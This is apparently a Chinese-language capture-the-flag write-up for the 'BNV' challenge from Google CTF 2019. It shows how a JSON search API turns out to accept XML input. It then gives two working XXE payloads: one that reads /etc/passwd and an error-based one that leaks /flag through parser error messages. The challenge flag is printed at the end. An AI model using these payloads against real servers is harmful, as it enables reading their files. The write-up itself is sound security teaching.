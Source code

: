 # BNV

這題題目會把送出的選項編碼成點字 

(https://www.pharmabraille.com/pharmaceutical-braille/the-braille-alphabet/)

背後是用JS送到`/api/serach`，然後送的格式是`application/json`

如果嘗試把`Content-type`改成`application/xml`

會發現噴XML Parse Error

所以可以知道對面Server支援XML格式的輸入

嘗試XXE會發現沒有回顯:

```xml
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE message[ 
  <!ELEMENT message ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]> 
<message>&xxe;</message>
```

可以發現如果是存在的檔案會回: `No Result`

不存在的檔案會噴Error

代表XML Parse的過程的確有讀到檔案

所以最後目標就是把內容帶出來

<br>

這裡可以利用前陣子很火的Error based XXE的方式

把內容夾帶到 Error message 中帶出來

payload:

```xml
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE message[ 
  <!ELEMENT message ANY >
  <!ENTITY % NUMBER '<!ENTITY &#x25; file SYSTEM "file:///flag">
  <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%NUMBER;
]> 
<message>a</message>
```

![](https://github.com/w181496/CTF/blob/master/googlectf-2019-qual/bnv/bnv.png)

flag: `CTF{0x1033_75008_1004x0}`


